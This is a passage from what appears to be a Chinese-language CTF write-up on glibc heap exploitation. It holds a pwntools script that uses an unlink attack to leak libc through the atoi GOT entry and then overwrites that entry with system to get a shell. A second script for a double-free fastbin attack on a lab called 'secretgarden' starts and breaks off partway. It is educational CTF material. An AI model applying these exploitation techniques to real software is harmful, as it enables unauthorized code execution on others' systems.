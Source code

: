 ```python
    add(0x80, '1' * 8)
    add(0x40, '2' * 8)
    ptr = 0x6020c8

    fakeChunk = flat([0, 0x41, ptr - 0x18, ptr - 0x10, cyclic(0x20), 0x40, 0x90])
    change(0, 0x80, fakeChunk)
    remove(1)
    payload = flat([0, 0, 0x40, elf.got['atoi']])
    change(0, 0x80, payload)
    show()
    libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\x00')) - libc.sym['atoi']
    success("libc.address -> {:#x}".format(libc.address))
    #  libcBase = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\x00')) - libc.sym['atoi']
    #  success("libcBase -> {:#x}".format(libcBase))
    pause()

    change(0, 0x8, p64(libc.sym['system']))
    #  change(0, 0x8, p64(libcBase + libc.sym['system']))
    io.sendline('$0')

    io.interactive()
    io.close()
```

可以看出，通过 house of house 直接控制函数指针进而控制 ip 的方法代码量少了不少，这也提醒我们不要放弃利用任何一个函数指针的机会

### lab12-secretgarden

通过 double free 实现 fastbin attack 的题目，所谓 double free，指的就是对同一个 allocated chunk free 两次，这样就可以形成一个类似 **0  -> 1 -> 0** 的 cycled fastbin list，这样当我们 malloc 出 0 时，就可以修改 fastbin list 中 0 的 fd，如 **1 -> 0 -> target**，这样只要我们再 malloc 三次，并通过 malloc 的检查，就可以实现 malloc 到任何地址，进而实现任意地址写，至于 double free 的检查怎么绕过可以看这个 [slide](https://github.com/M4xW4n9/slides/blob/master/pwn_heap/advanceheap-160113090848.pdf)

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
context.log_level = "debug"
context.terminal = ["deepin-terminal", "-x", "sh", "-c"]

def DEBUG():
    raw_input("DEBUG: ")
    gdb.attach(io, "b *0x4009F2")

def Raise(length, name):
    io.sendlineafter(" : ", "1")
    io.sendlineafter(" :", str(length))
    io.sendafter(" :", name)
    io.sendlineafter(" :", "nb")

def remove(idx):
    io.sendlineafter(" : ", "3")
    io.sendlineafter(":", str(idx))

if __name__ == "__main__":
    #  io = process("./secretgarden", {"LD_PRELOAD": "./libc-2.23.so"})
    io = process("./secretgarden")

    Raise(0x50, "000") # 0
    Raise(0x50, "111") # 1

    remove(0) # 0
```